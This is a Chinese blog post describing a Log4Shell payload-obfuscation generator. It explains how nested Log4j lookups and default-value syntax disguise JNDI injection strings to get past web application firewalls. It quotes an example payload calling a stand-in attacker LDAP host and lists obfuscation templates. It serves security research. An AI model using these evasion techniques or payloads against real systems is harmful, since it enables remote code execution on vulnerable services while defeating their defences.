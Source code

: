 ```yaml
---
layout: post
title: "Log4Shell payload规避WAF检测技术研究与应用"
date: "2022-05-10"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Research
---
```


# Log4Shell-obfuscated-payloads-generator
## 设计思想
下面介绍本项目的四个设计思想：
1. Log4j支持递归解析嵌套的Lookup

    利用该功能，我们可以对payloads进行混淆，从而规避WAF的检测和拦截。
2. 大部分Lookups支持默认值语法
    
    如果我们想获取字符`d`的等效替换，可以利用默认值语法，检索一个不存在的变量，让Lookup失败。这样Lookup的结果就会返回我们指定的默认值`d`，例如`${env:IDONTEXIST:-d}`。
3. 可用的Lookups

    本文根据Apache Log4j Lookups手册，对所有的Lookups进行了测试，得到了可用于构造payload的Lookups：Context Map Lookup、Docker Lookup、Environment Lookup、EventLookup、Kubernetes Lookup、Log4j Configuration Location Lookup、Lower Lookup、Main Arguments Lookup (Application)、Map Lookup、Marker Lookup、Spring Boot Lookup、Structured Data Lookup、System Properties Lookup、Upper Lookup、Web Lookup，它们的前缀分别为：`ctx`、`docker`、`env`、`event`、`k8s`、`log4j`、`lower`、`main`、`map`、`marker`、`spring`、`sd`、`sys`、`upper`、`web`，这些Lookups的共同特征是支持默认值语法，在下文中将简称为“可用的Lookups”。我们将这些Lookups作为对`jndi`部分和协议字段部分中字符的等效替换，生成初级混淆的payload。
4. 初级混淆与二次混淆的区别

    假设我们有一个简单的Log4Shell payload，它看起来像这样：`${jndi:ldap://evilhost.com:1389/a}`。其中，`jndi`和`ldap`部分特征明显，很容易被WAF拦截。初级混淆仅对`jndi`部分和协议字段（`rmi`、`dns`、`ldap`）部分中的关键字进行等效替换，从形式上来看进行了一次嵌套Lookup。可以看到，虽然利用了Lookups的默认值语法得到了与字符`j`等效的`${event:rzbp7gf3lZ8W1oP3:-j}`，但是也引入了Event Lookup的前缀`event`，该前缀也可能被WAF拦截。所以，我们需要再次利用没有前缀的Lookups，对`event`前缀进行等效替换，从形式上来看进行了两次嵌套Lookup。实验结果表明，`:-`符号、`::-`符号和不存在的Lookup可以实现这个目标。利用这三种Lookups对前缀进行等效替换后，我们得到如下的内容：`${:-e}`、`${::-v}`、`${what:ever:-n}`。

## 模板设计
在介绍本项目的数据结构设计之前，需要了解混淆的模板和payloads模板：

下面是初级混淆的模板：
```
# Primary Obfuscated Colon Template
:
${::-:}
${lower::}
${k8s:{{random_variable}}:-:}
${env:{{random_variable}}:-:}
${ctx:{{random_variable}}:-:}
${main:{{main_argument_key}}:-:}
${main:{{random_variable}}:-:}
${map:{{random_variable}}:-:}
${sd:{{random_variable}}:-:}
${sys:{{random_variable}}:-:}
${web:{{random_variable}}:-:}
${docker:{{random_variable}}:-:}
${event:{{random_variable}}:-:}
${log4j:{{random_variable}}:-:}
${marker:{{random_variable}}:-:}
${spring:{{random_variable}}:-:}
${upper::}
```
